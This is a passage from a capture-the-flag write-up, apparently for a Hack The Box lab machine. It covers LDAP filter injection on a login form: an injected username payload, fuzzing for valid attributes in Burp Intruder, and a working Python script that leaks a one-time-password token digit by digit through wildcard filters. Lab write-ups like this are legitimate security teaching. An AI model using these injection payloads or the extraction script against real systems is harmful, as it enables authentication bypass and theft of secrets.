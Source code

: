 We can try to breakout of one of the conditions and add our own which will contain the attribute we are testing the existence of.

This can be done by sending something like `ldapuser)(attribute=*` as the username (double URL-encoded). 

This will then result in the following "hypothetical" query:


```ldap
(&
  (username=ldapuser)
  (attribute=*)
  (otp=<USERINPUT>)
)
```

If the attribute doesn't exist we won't get the "Cannot login" error message.

Using burp intruder, we can fuzz every attribute in our wordlist and see for which ones we get "Cannot login" in the response 

{{<figure src="/img/htb/ctf/attribute_fuzzing_intruder.png" position=center caption="Setting up Burp Intruder">}}

{{<figure src="/img/htb/ctf/valid_attributes.png" position=center caption="Valid LDAP attributes">}}

Among this list of valid attributes, `pager` seems to be a good candidate for containing a 81 digits token. We can verify it by using the same method as we did in the username enumeration.

### Token leak

We can use a slightly modified version of the previous script:

```python
import requests
import string
import time

letters = list(string.ascii_lowercase)
digits = [int(d) for d in "1234567890"]
url = 'http://10.10.10.122/login.php'

def guess_next_char(current_guessed_string):
    for digit in digits:
        time.sleep(0.3)
        data = {
            "inputUsername": f"ldapuser%29%28pager%3d{current_guessed_string}{digit}%2a",
            "inputOTP": "1234",
        }
        response = requests.post(url, data=data)
        if "Cannot login" in response.text:
            return str(digit)

    print("END")
    exit(1)

token = ""
while True:
    token += guess_next_char(token)
    print(token)
```
